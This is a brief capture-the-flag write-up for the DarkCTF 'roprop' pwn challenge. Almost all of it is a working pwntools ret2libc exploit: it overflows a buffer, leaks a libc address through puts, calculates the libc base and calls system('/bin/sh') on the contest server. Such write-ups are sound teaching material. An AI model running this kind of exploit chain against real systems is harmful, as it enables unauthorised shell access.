

## DarkCTF: roprop [pwn]
> This is from the back Solar Designer times where you require rope to climb and get anything you want.

#### Typical baby rop pwn challenge for ctf warmups. Resources can be found all througout my previous writeups. Plan is to get some gadgets using ROPgadget, leak some libc addresses, calculate the libc base, execute phase 2, pop the shell. 
```python
from pwn import *

#:
p = remote('roprop.darkarmy.xyz', 5002)
binary = ELF('./roprop', checksec = False)

print(p.recv())
print(p.recv())

ret = 0x0000000000400646
pop_rdi = 0x0000000000400963

exploit = cyclic(88)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(binary.got['gets'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])

p.sendline(exploit)
leak = u64(p.recv().ljust(8, '\x00'))
print('[*] libc leak: {}'.format(hex(leak)))

#:
libc = ELF('libc6_2.27-3ubuntu1.2_amd64.so', checksec = False)
libc.address = leak - libc.symbols['gets']
print('[*] libc base: {}'.format(hex(libc.address)))

exploit = cyclic(88)
exploit += p64(pop_rdi)
exploit += p64(libc.search('/bin/sh').next())
exploit += p64(libc.symbols['system'])
exploit += p64(libc.symbols['exit'])

p.sendline(exploit)
p.interactive()
```
